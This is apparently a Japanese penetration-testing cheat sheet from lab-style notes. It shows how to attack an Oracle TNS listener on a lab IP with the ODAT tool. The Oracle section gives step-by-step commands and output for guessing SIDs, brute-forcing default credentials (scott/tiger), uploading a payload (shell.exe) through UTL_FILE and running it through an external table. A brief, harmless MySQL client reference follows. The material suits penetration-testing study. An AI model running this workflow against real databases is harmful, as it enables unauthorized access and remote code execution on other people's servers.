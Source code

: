## Oracle TNS Listener(1521)
ODAT(Oracle Database Attacking Tool):  
https://github.com/quentinhardy/odat
```
# install
sudo pip3 install cx_Oracle
sudo apt-get install python3-scapy
sudo pip3 install colorlog termcolor pycrypto passlib python-libnmap
sudo pip3 install argcomplete && sudo activate-global-python-argcomplete
```
```
# All Check
python3 odat.py all -s 10.10.10.82 -p 1521

# SIDの特定
python3 odat.py sidguesser -s 10.10.10.82 -p 1521
[+] SIDs found on the 10.10.10.82:1521 server: XE

# 認証情報の特定(-dは特定したSIDを指定)
python3 odat.py passwordguesser -s 10.10.10.82 -p 1521 -d XE

# 認証情報の特定(アカウントファイルの指定)
ここではmetasploitのoracle用ファイルを使用
ただし、ODATでは認証情報のファイルに「/」で区切ったものが必要なためEmacsなどでスペースと/を置き換える。
python3 odat.py passwordguesser -s 10.10.10.82 -p 1521 -d XE --accounts-file oracle_default_userpass.txt
[+] Accounts found on 10.10.10.82:1521/sid:XE:
scott/tiger

# 権限の確認
ファイルのアップロード権限(utlfile)や実行権限(externaltable)を列挙
python3 odat.py all -s 10.10.10.82 -d XE -U scott -P tiger --sysdba

# ペイロードのアップロード
python3 odat.py utlfile -s 10.10.10.82 -p 1521 -U scott -P tiger -d XE --sysdba --putFile "c:\Windows\Temp" "shell.exe" "shell.exe"
[+] The shell.exe file was created on the c:\Windows\Temp directory on the 10.10.10.82 server like the shell.exe file

# アップロードしたペイロードの実行
python3 odat.py externaltable -s 10.10.10.82 -p 1521 -U scott -P tiger -d XE --sysdba --exec "C:\Windows\Temp" "shell.exe"
[1] (10.10.10.82:1521): Execute the shell.exe command stored in the C:\Windows\Temp path
```
```
# データベースへ接続
sqlplus SCOTT/tiger@10.10.10.82:1521/XE
# as sysdbaはOracle版sudo
sqlplus SCOTT/tiger@10.10.10.82:1521/XE as sysdba
```

## MySQL(3306)
```
mysql -u root -p
mysql -u root -p -h <host name> -P <port number>
mysql -u root -e 'SHOW DATABASES;'
```
- -D...データベース名の指定
- -e...コマンドラインから直接SQLコマンドを実行
- -h... ホスト名の指定
- -p...パスワードの指定
- -u...ユーザー名の指定
